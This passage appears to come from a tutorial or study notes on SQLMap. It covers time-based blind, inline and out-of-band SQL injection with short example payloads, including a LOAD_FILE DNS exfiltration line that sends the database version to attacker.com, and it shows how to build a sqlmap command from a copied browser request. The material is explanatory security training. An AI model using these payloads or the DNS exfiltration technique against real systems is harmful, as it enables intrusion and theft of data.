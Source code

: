 
### <span style="color:#00ff73">Time-based blind SQL Injection</span>
Example of `Time-based blind SQL Injection`:
Code: sql
```sql
AND 1=IF(2>1,SLEEP(5),0)
```
The principle of `Time-based blind SQL Injection` is similar to the `Boolean-based blind SQL Injection`, but here the response time is used as the source for the differentiation between `TRUE` or `FALSE`.
- `TRUE` response is generally characterized by the noticeable difference in the response time compared to the regular server response
- `FALSE` response should result in a response time indistinguishable from regular response times
`Time-based blind SQL Injection` is considerably slower than the boolean-based blind SQLi, since queries resulting in `TRUE` would delay the server response



### <span style="color:#00ff73">Inline queries</span>
Example of `Inline Queries`:
Code: sql
```sql
SELECT (SELECT @@version) from
```
This type of injection embedded a query within the original query. Such SQL injection is uncommon, as it needs the vulnerable web app to be written in a certain way. Still, SQLMap supports this kind of SQLi as well.


### <span style="color:#00ff73">Out-of-band SQL Injection</span>
Example of `Out-of-band SQL Injection`:
Code: sql
```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```
This is considered one of the most advanced types of SQLi, used in cases where all other types are either unsupported by the vulnerable web application or are too slow (e.g., time-based blind SQLi). SQLMap supports out-of-band SQLi through "DNS exfiltration," where requested queries are retrieved through DNS traffic.

By running the SQLMap on the DNS server for the domain under control (e.g. `.attacker.com`), SQLMap can perform the attack by forcing the server to request non-existent subdomains (e.g. `foo.attacker.com`), where `foo` would be the SQL response we want to receive. SQLMap can then collect these erroring DNS requests and collect the `foo` part, to form the entire SQL response.


One of the best and easiest ways to properly set up an SQLMap request against the specific target (i.e., web request with parameters inside) is by utilizing `Copy as cURL` feature from within the Network (Monitor) panel inside the Chrome, Edge, or Firefox Developer Tools:
![](https://i.imgur.com/hAQTGWc.png)

After copying and pasting this to terminal, we need to change curl to sqlmap like this:
```shell-session
sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```
